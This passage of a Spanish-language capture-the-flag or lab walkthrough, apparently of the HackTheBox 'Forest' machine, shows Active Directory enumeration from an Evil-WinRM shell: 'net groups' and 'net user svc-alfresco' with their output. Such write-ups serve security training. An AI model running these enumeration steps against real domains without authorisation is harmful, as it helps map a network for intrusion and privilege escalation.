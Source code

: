 Ahora, obtengamos los grupos:
```batch
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net groups

Group Accounts for \\

-------------------------------------------------------------------------------
*$D31000-NSEL5BRJ63V7
*Cloneable Domain Controllers
*Compliance Management
*Delegated Setup
*Discovery Management
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Exchange Servers
*Exchange Trusted Subsystem
*Exchange Windows Permissions
*ExchangeLegacyInterop
*Group Policy Creator Owners
*Help Desk
*Hygiene Management
*Key Admins
*Managed Availability Servers
*Organization Management
*Privileged IT Accounts
*Protected Users
*Public Folder Management
*Read-only Domain Controllers
*Recipient Management
*Records Management
*Schema Admins
*Security Administrator
*Security Reader
*Server Management
*Service Accounts
*test
*UM Management
*View-Only Organization Management
The command completed with one or more errors.
```
Los mismos grupos que ya habíamos visto.

Veamos la información del usuario actual:
```batch
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net user svc-alfresco
User name                    svc-alfresco
Full Name                    svc-alfresco
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/10/2024 12:35:48 PM
Password expires             Never
Password changeable          10/11/2024 12:35:48 PM
Password required            Yes
User may change password     Yes
```